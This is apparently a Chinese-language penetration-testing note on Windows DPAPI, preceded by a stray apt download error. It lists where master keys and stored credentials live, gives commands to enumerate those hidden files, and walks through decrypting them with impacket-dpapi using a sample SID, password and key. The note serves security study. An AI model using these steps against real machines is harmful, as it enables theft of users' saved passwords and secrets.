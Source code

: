 ```bash
Error: Failed to fetch http://mirror.twds.com.tw/kali/pool/main/q/qtbase-opensource-src/libqt5test5t64_5.15.15+dfsg-5_amd64.deb Unable to connect to mirror.twds.com.tw:http: [IP: 103.147.22.36 80]
Error: Unable to fetch some archives, maybe run apt-get update or try with --fix-missing?
```



# DPAPI

**DPAPI（Data Protection API）** 是 Windows 提供的一个核心加密接口，专门用于**保护敏感数据**（如密码、密钥、凭据等）。它被广泛用于系统后台，用户通常不会直接接触。

DPAPI 保护的个人数据包括：

```
1、Internet Explorer 和 Google Chrome 的密码和自动完成数据。
2、共享文件夹、资源、无线网络和 Windows Vault 的密码，包括加密密钥。
3、远程桌面连接密码、.NET Passport 以及用于各种加密和身份验证目的的私钥。
4、由Credential Manager管理的网络密码和使用CryptProtectData的应用程序中（例如 Skype、MSN messenger 等）的个人数据。
5、寄存器内的加密 blob。
```

DPAPI 保护的系统数据包括：

```
Wifi passwords  无线网络密码
Scheduled task passwords 计划任务密码
```

主密钥文件一般在\Protect目录下，存储凭据的文件一般在\Credentials下，C:\Users\username\AppData\Roaming可以用APPDATA表示，使用set命令可查看环境变量。

```
C:\Users\username\AppData\Roaming\Microsoft\Protect\*
C:\Users\username\AppData\Roaming\Microsoft\Credentials\*
C:\Users\username\AppData\Roaming\Microsoft\Vault\*
C:\Users\username\AppData\Local\Microsoft\Protect\*
C:\Users\username\AppData\Local\Microsoft\Credentials\*
C:\Users\username\AppData\Local\Microsoft\Vault\*
```

枚举存储凭据的文件。

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

DPAPI渗透基础利用流程：

```
1、找到主密钥文件、存储凭据的文件、SID（一般是存储主密钥文件目录的名称）

2、下载到kali本地

3、使用impacket-dpapi破解出主密钥文件的Key
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'

4、利用key解密存储凭据的文件
impacket-dpapi credential -file "C8D69EBE9A43E9DEBF6B5FBD48B521B9" -key "0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84"
```
